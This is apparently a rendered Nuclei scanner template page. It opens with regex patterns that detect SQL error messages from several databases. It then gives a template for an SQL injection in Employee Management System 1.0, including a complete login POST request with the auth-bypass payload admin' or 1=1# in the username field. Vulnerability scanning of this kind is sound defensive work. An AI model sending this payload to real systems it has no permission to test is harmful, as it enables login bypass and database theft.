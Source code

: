 **Type - regex**
- name - MimerSQL
- regex
    1. com\.mimer\.jdbc
    2. Syntax error,[^\n]+assumed to mean

**Type - regex**
- name - CrateDB
- regex
    1. io\.crate\.client\.jdbc

**Type - regex**
- name - Cache
- regex
    1. encountered after end of query
    2. A comparison operator is required here

**Type - regex**
- name - RaimaDatabaseManager
- regex
    1. -10048: Syntax error
    2. rdmStmtPrepare\(.+?\) returned

**Type - regex**
- name - Virtuoso
- regex
    1. SQ074: Line \d+:
    2. SR185: Undefined procedure
    3. SQ200: No table 
    4. Virtuoso S0002 Error
    5. \[(Virtuoso Driver|Virtuoso iODBC Driver)\]\[Virtuoso Server\]

---
# Employee Management System 1.0 - SQL Injection
## Description
- Employee Management System 1.0 contains a SQL injection vulnerability via the username parameter.  An attacker can possibly obtain sensitive information from a database, modify data, and execute unauthorized administrative operations in the context of the affected site.

- severity - critical
- tags - ems,sqli,cms,auth-bypass,edb
## Requests
### Step - 1
```
POST /process/aprocess.php HTTP/1.1
Host: {{Hostname}}
Content-Type: application/x-www-form-urlencoded

mailuid=admin' or 1=1#&pwd=nuclei&login-submit=Login

```
### Matchers
